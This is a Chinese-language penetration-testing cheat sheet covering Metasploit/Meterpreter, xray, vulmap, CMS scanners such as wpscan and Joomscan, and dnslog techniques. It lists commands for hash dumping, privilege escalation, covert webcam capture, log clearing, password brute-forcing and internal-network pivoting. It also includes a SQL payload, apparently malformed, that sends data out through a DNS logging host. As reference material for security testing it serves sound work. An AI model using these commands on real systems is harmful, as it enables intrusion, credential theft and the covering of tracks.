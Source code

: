 综合框架
----------------------------------------

metasploit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Terminal下msf常用命令简介
	+ 打开msf终端：``msfconsole``
	+ msf数据库初始化：``msfdb init``
	+ msf更新：``apt install metasploit framework``
	+ 将汇编指令转换成为对应的16进制机器码：``msf-nasm_shell``
- msf终端下常用命令简介
	+ 查看数msf据库连接状态,连接数据库能够优化搜索等过程：``db_status`` 
	+ 重建缓存，将模块等索引重新存入数据库：``db_rebuild_cache``
	+ 调用nmap扫描，并将扫描结果存入数据库：``db_nmap``
	+ 显示命令的帮助信息：``help [db_connect]``
	+ 搜索含有关键字的模块：``search [module]``
	+ 选择模块：``use [module]``
	+ 显示模块支持的payload：``show payload``
	+ 显示模块参数：``show options``
	+ info详情：``info``
	+ 设置取消参数：``set/unset [opt]``
	+ 设置取消全局参数：``setg/unsetg [opt]``
	+ 返回上级状态：``back``
	+ 运行攻击模块：``exploit/run``
	+ 查看当前连接会话：``sessions``
- meterpreter后渗透利用
	+ 打印当前工作目录：``pwd``
	+ 查看系统信息：``sysinfo``
	+ 查看当前目标机上运行的进程列表和pid：``ps``
	+ 调用相机拍摄照片：``webcam_snap``
	+ 运行vnc远程查看屏幕：``run vnc``
	+ 开启远程登录3389（windows）：``run post/windows/manage/enable_rdp``
	+ 截取目标主机当前屏幕​：``screenshot``
	+ 获取当前权限的用户id：``getuid``
	+ 获取system权限：``getsystem``
	+ 获取用户名与hash口令：``hashdump``
	+ 获取目标主机shell(windows环境下中文乱码的解决办法:chcp 65001）：``shell``
	+ 退出shell模式，返回到meterpreter：``Ctrl+Z``
	+ 上传一个文件：``upload``
	+ 下载一个文件：``download``
	+ 执行目标系统中的文件(-f 指定文件，-i执行可交互模式，-H隐藏窗口)：``excute``
	+ 清除日志：``clearev``
	+ 将Meterpreter放入后台(使用session -i重新连接到会话)：``background``
- meterpreter内网渗透
	+ 获取目标主机上的子网状态：``run get_local_subnets``
	+ arp扫描内网机器：``run post/windows/gather/arp_scanner RHOSTS=192.168.100.0/24``
	+ 使用autoroute模块添加到达内网的路由经session 1转发：``run autoroute -s 169.254.0.0/16 1``
	+ 查看当前的路由表：``run autoroute -p``
	+ 扫描内网存活主机：``db_nmap``
	+ 将目标主机192.168.16.59的3389转发到本地主机的7070端口：``portfwd add -l 7070 -r 192.168.16.59 -p 3389``
	+ 端口转发成功后就可以从本地端口连接rdp：``rdesktop 127.0.0.1:7070``

vulmap
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 项目地址：``https://github.com/zhzyker/vulmap``
- 安装
		::
		
			git clone https://github.com/zhzyker/vulmap.git
			pip3 install -r requirements.txt
			
- 基本用法：``python3 vulmap.py -u http://example.com``

xray
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 全局配置
	+ --config 用于指定配置文件的位置，默认加载同目录的 config.yaml
	+ --log_level 用于指定全局的日志配置
	+ ``xray_windows_amd64.exe --log_level debug --config 1.yaml webscan --url xxx``
- reverse命令
	+ 启用单独的盲打平台服务，盲打平台用于处理没有回显或延迟触发的问题
- genca
	+ 用于快速生成一个根证书，主要用于被动代理扫描 HTTPS 流量时用到
- subdomain
	+ 子域名扫描
	+ ``xray_windows_amd64.exe  subdomain --target example.com --text-output example.txt``
	+ ``xray_windows_amd64.exe subdomain --target example.com --console-ui --text-output example.txt``
- webscan
	+ 扫描web漏洞，核心功能
	+ --plugins 配置本次扫描启用哪些插件, 不再使用配置文件中的配置
		- ``--plugins xss --plugins xss,sqldet,phantasm``
	+ --poc 配置本次扫描启用哪些 POC,因为所有 POC 隶属于 phantasm 插件, 所以该参数其实是 phantasm 插件独有的配置。
		- ``--plugins phantasm --poc poc-yaml-thinkphp5-controller-rce``
		- ``--plugins phantasm --poc "*thinkphp*"``
		- ``--plugins phantasm --poc "/home/test/pocs/*"``
		- ``--plugins phantasm --poc "/home/test/pocs/*thinkphp*" ...``
	+ 配置输入来源
		- --listen 
			+ 启动一个被动代理服务器作为输入，如 --listen 127.0.0.1:4444，然后配置浏览器或其他访问工具的 http 代理为 http://127.0.0.1:4444 就可以自动检测代理中的 HTTP 请求并进行漏洞扫描
		- --basic-crawler 
			+ 启用一个基础爬虫作为输入， 如 --basic-crawler http://example.com，就可抓取 http://example.com 的内容并以此内容进行漏洞扫描
		- --url 
			+ 用于快速测试单个 url，这个参数不带爬虫，只对当前链接进行测试。默认为 GET 请求，配合下面的 --data 参数可以指定 body，同时变为 POST 请求。
		- --raw-request 
			+ 用于加载一个原始的 HTTP 请求并用于扫描，原始请求类似上面代码框中的原始请求，如果你用过 sqlmap -r，那么这个参数应该也很容易上手。
	+ 输出方式
		- --html-output 将结果输出为 html 报告, 报告样例
		- --webhook-output 将结果发送到一个地址
		- --json-output 将结果输出到一个 json 文件中
	+ 示例
		- ``xray_darwin_amd64 webscan --plugins xss --listen 127.0.0.1:1111 --html-output 1.html``
		- ``xray_darwin_amd64 --log_level debug webscan --plugins xss,cmd_injection --basic-crawler http://example.com --json-output 1.json``
		- ``xray_darwin_amd64 webscan --url http://example.com --data "x=y" --html-output 2.html --json-output 1.json``
		- ``xray_darwin_amd64 webscan --url http://example.com/ --webhook-output http://host:port/path``

特定CMS漏洞利用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ Joomscan
	- 介绍
		+ Joomla security scanner可以检测Joomla整站程序搭建的网站是否存在文件包含、sql注入、命令执行等漏洞。
	- 使用方法
		+ 默认检测：``joomscan -u www.example.com``
		+ 组件检测：``joomscan -u www.example.com –ec``
		+ 设置cookie：``joomscan -u www.example.com --cookie "test=demo;"``
		+ 随机UA：``joomscan -u www.example.com -r``
		+ 设置代理：``joomscan -u www.example.com --proxy http://127.0.0.1:8080``
+ wpscan
	- 插件漏洞:``wpscan --url https://www.xxxxx.wiki/ -e vp`` 
	- 主题漏洞:``wpscan --url https://www.xxxxxx.wiki -e vt`` 
	- 枚举用户:``wpscan --url https://www.xxxxxxx.wiki/ -e u`` 
	- 穷举密码:``wpscan --url https://www.xxxxxxx.wiki/ -U 'admin' -P /root/wordlist.txt``
+ Drupal enumeration & exploitation tool 
	- https://github.com/immunIT/drupwn
+ `dedecmscan <https://github.com/lengjibo/dedecmscan>`_ 织梦全版本漏洞扫描

dnslog
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 利用场景
	+ Sql-Blind
	+ RCE
	+ SSRF
	+ RFI（Remote File Inclusion）
- 原理
	将dnslog平台中的特有字段payload带入目标发起dns请求，通过dns解析将请求后的关键信息组合成新的三级域名带出，在ns服务器的dns日志中显示出来。
- 限制
	load_file函数在Linux下是无法用来做dnslog攻击的，因为Linux没有UNC路径(UNC路径就是类似\\softer这样的形式的网络路径)。
- 示例
	+ ``select load_file('\\\\',version(),'.dnslog地址')``

其它
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- AWVS
- Immunity Canvas
- openvas
- nessus
- `PenTesters Framework(ptf) <https://github.com/trustedsec/ptf>`_
- katoolin
	+ 自动安装所有Kali Linux工具
- `x-scan <https://x-scan.apponic.com/>`_
